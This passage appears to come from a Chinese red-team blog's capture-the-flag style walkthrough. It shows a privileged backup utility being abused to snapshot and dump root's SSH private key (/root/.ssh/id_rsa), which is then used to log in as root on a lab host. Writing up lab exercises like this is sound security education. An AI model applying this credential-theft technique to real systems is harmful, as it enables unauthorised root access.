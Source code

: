 依次执行几个命令进行提取尝试  
```
第一步：backup /root/.ssh/第二步：snapshots第三步：ls 快照ID第四步：dump 快照ID /root/.ssh/id_rsa
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHvKTEr6kqDlnGO1DvpZEtbdric70w9QHicAexFDu5A1VUwOqaxuEZPTdA/640?wx_fmt=png&from=appmsg "null")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHysHuga42mgKfiaSyVmpXXMJ3KnrckadH0AUDpCIYxj7icfkzqFYxNK2g/640?wx_fmt=png&from=appmsg "null")  
  
#####   
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuH1RAoxoUHlMlAOZ7eGxTzYEGIEySl7avwbKWRHURDNiatIvHrUZ6WDOg/640?wx_fmt=png&from=appmsg "null")  
  
  
然后把私钥复制到本地，给 600 权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHQgWunr0QRwOc6q7TnqMDVhINyzRibUSibB6pCs1QWrjza33onLYv6ibHA/640?wx_fmt=png&from=appmsg "null")  
  
  
ssh root 登录成功  
```
ssh root@10.10.11.74 -i id_rsa
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2IL8e0lZ1MTdnFKDW5ROOuHhxkyrwXwEdpYquNnEm1zahbHm8Lsp9ibNh0iaMtgjfefJ7EcjNrAH5xA/640?wx_fmt=png&from=appmsg "null")  
  
  
   
  
欢迎关注   
红队安全圈  
，给个  
一键四连  
吧  
  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/5HsgFkdwV2J3Ykl5xDepRoqkSBlQKAEIEx0DHiaQHx6sBYGNDAI6Eia2ZnZLLsHzD8yxEGEVbrzzTL4Shrf7iaWWw/640?wx_fmt=gif&from=appmsg "")  
  
